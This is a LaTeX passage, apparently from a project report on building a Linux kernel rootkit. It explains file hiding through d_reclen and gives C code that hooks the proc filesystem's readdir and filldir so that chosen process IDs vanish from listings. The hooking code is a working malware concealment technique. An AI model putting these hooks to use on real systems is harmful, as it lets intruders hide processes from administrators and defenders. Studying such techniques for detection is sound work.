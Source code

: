 \documentclass[10pt, letterpaper]{article}
\begin{document}
Another implementation alternative would have been to manipulate the element preceeding the entry to be hidden, such that it appears to be longer and thus kind of shades the item beginning with \texttt{rootkit\_}. Each \texttt{dirent} has a member \texttt{d\_reclen}, which stores the length of the \texttt{dirent} itself. Thus, we also could manipulate \texttt{d\_reclen} accordingly. 

However, this alternative approach brings quite some overhead in code, because you need e.g. additional tests whether the element to be hidden is the first element (the hard case) or somewhere in the middle (that works quite well).

\subsection{Process Hiding}

\label{sec:process-hiding}

Currently, we hook the \texttt{readdir} call of the \texttt{proc}-filesystem to hide the specified tasks (just as in \autoref{filehiding}). Moreover, we also employ a custom \texttt{filldir} function\footnote{\texttt{filldir\_t} is an own type in the Linux kernel for a function used to fill the contents of \texttt{readdir}.}, which actually hides the specified processes.

The hooked \texttt{readdir} function is quite simple:

\begin{verbatim}
int hooked_readdir(struct file *filep, void *dirent, filldir_t filldir){
    original_proc_fillfir = filldir;
    return proc_original_readdir(filep, dirent, hooked_proc_filldir);
}
\end{verbatim}

First, we remember the original \texttt{filldir} function so we can use it later. Afterwards, we call the \emph{original} \texttt{readdir} function, but we give our own \texttt{hooked\_proc\_filldir} as parameter to it. So, we ``just change parameters'' to the function.

It remains to show our hooked \texttt{filldir} function:

\begin{verbatim}
int hooked_proc_filldir (void *__buf, const char *name, int namelen, 
                         loff_t offset, u64 ino, unsigned d_type){
    char buf[512];
    struct proc_to_hide* cur;
    for(cur = processes_to_hide; cur != 0; cur = cur->next){
        sprintf(buf, "%d", cur->pid);
        if(strcmp(buf, name)==0){
            // If we come here, we hide the process.
            return 0;
        }
    }
    // If we come here, we just delegate everything to the original function.
    return original_proc_fillfir(__buf, name, namelen, offset, ino, d_type);
}
\end{verbatim}
\end{document}
